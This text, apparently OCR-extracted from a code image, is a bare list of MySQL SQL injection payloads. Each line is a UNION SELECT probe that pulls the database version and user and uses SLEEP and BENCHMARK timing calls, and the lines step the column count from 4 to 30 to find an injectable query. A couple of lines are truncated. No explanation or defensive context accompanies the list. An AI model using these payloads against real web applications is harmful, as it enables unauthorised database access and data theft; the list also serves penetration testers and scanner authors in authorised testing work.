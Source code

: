 ```
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
 UNION SELECT @@VERSION,SLEEP(5),"'3
 UNION SELECT @@VERSION,SLEEP(5),"'3'"#
 UNION SELECT @@VERSION,SLEEP(5),USER(),4#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#
```